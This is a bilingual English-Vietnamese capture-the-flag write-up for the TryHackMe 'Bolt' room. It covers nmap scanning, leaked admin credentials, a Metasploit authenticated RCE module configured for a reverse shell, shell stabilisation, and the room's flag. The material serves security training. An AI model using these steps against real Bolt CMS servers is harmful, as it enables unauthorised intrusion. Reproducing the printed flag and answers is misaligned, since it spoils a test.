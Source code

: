
# Bolt – TryHackMe Detailed Write-up  
*(Bản hướng dẫn chi tiết khai thác máy Bolt trên TryHackMe)*

---

## Overview (Tổng quan)

In this room, we deal with **Bolt CMS** which is vulnerable to an **Authenticated Remote Code Execution (RCE)**.  
*(Trong phòng này, ta làm với Bolt CMS có lỗ hổng **Authenticated Remote Code Execution**.)*

We will: reconnaissance, find credentials leaked in public content, log in, determine version, find exploit, and get a shell.  
*(Ta sẽ: khám phá, tìm thông tin đăng nhập bị lộ công khai, đăng nhập, xác định version, tìm exploit, và có shell.)*

---

## 1. Reconnaissance / Enumeration (Khám phá / Liệt kê)

1. Run `nmap` to scan all TCP ports, detect services, versions, etc.:

   ```bash
   nmap -sC -sV -Pn -p- <target_ip>
   ```

   - `-sC`: default scripts, giúp rà các lỗ hổng / thông tin cơ bản.  
   - `-sV`: version detection, để biết phiên bản dịch vụ (PHP, web server, etc.).  
   - `-Pn`: treat host as up, bỏ qua bước ping / host discovery (nhanh hơn trong lab).  
   - `-p-`: scan tất cả port TCP.  

2. From scan you see ports **22**, **80**, **8000** are open.  
   - Port 22: SSH (not immediately useful unless creds found)  
   - Port 80: HTTP default Apache page, little useful.  
   - Port 8000: HTTP, shows Bolt CMS site.  

3. Visit the web site on port 8000. Observe that the page footer / generator metadata says “Bolt” as CMS.  

---

## 2. Finding Leaked Credentials (Tìm thông tin đăng nhập bị lộ)

1. Browse public posts / entries like **/entry/message-from-admin** (or similar path).  
2. In that post, find **username**: `bolt`.  
3. In another post (e.g. “Message for IT Department”), find **password**: `boltadmin123`.  

**Why this matters:**  
- Credentials with admin privileges allow further actions.  
- Sensitive Information Disclosure = when secret data (passwords, keys, tokens) are exposed where unauthorized persons can see.  

---

## 3. Logging In & Version Discovery (Đăng nhập & Xác định phiên bản)

1. Go to the login page: `/bolt/login`. Use `bolt / boltadmin123` to login.  
2. After login, in the admin dashboard (usually footer or bottom left), find version: **Bolt 3.7.1**.  

---

## 4. Finding the Exploit (Tìm exploit phù hợp)

1. Use `searchsploit bolt` or browse Exploit-DB to locate exploits for Bolt version ~3.7.x.  
2. Found: **Exploit‑DB ID 48296**, titled “Bolt CMS 3.7.0 – Authenticated Remote Code Execution”.  
3. Also note there is a Metasploit module added recently matching that exploit: `exploit/unix/webapp/bolt_authenticated_rce`.  

**Concepts explained:**  
- **Exploit‑DB**: a public database of known exploits.  
- **Metasploit module**: a ready‑to‑use code in Metasploit framework that automates exploitation process.  
- **Authenticated**: you need to be logged in (with admin or enough privileges).  
- **Remote Code Execution (RCE)**: ability to run arbitrary commands on server from outside (remotely).  

---

## 5. Exploitation (Khai thác)

1. Use Metasploit:

   ```bash
   msfconsole
   use exploit/unix/webapp/bolt_authenticated_rce
   set RHOSTS <target_ip>
   set RPORT 8000
   set USERNAME bolt
   set PASSWORD boltadmin123
   set LHOST <your_ip>
   set LPORT <your_listening_port>
   run
   ```

   - `RHOSTS`: target machine IP.  
   - `USERNAME` / `PASSWORD`: creds found earlier.  
   - `LHOST`, `LPORT`: your listener for reverse shell.  

2. After exploit runs, get a shell on the target (often as root in this lab).  

3. Stabilize shell if needed (e.g. spawn TTY, upgrade shell). *(ví dụ dùng `python3 -c "import pty; pty.spawn('/bin/bash')"`) *

---

## 6. Capturing the Flag & Post Exploitation (Lấy flag & sau khi có quyền)

1. Once shell is obtained, navigate to home directory or root, depending where lab places flag. Found file `flag.txt`.  
2. Read the flag. In many write‑ups the flag is something like `THM{wh0_d035nt_l0ve5_b0l7_r1gh7?}`.  

---

## 7. Summary / Lessons (Tóm lại / Bài học)

- Exposed credentials = big weakness. Even if system version is vulnerable, nếu bạn không có creds, khó mà khai thác được.  
- Knowing CMS version is key: exploit chỉ hoạt động nếu version phù hợp.  
- Use public exploit sources (Exploit‑DB) & Metasploit module để nhanh & giảm sai sót.  
- Always secure admin content, prevent info leakage. Patch thường xuyên.  

---

## 8. Glossary of Terms (Giải thích các từ chuyên môn)

| Term | Meaning |
|---|---------|
| **Reconnaissance** | Gathering info (ports, services, version) before attacking |
| **Enumeration** | Going deeper: listing directories, pages, finding credentials etc. |
| **CMS** | Content Management System — platform to build/manage website content |
| **Authenticated RCE** | Remote Code Execution that requires login credentials |
| **Exploit‑DB** | Database of known public exploits |
| **Metasploit module** | Pre‑built exploit script in Metasploit framework |
| **Reverse shell** | Shell session from target machine back to attacker (so attacker controls) |
| **Privilege escalation** | Gaining higher rights (e.g. from regular user to root) |

---

# Flag

THM{wh0_d035nt_l0ve5_b0l7_r1gh7?}

*(Bạn nhớ thay flag thật của lab bạn vào nếu khác.)*
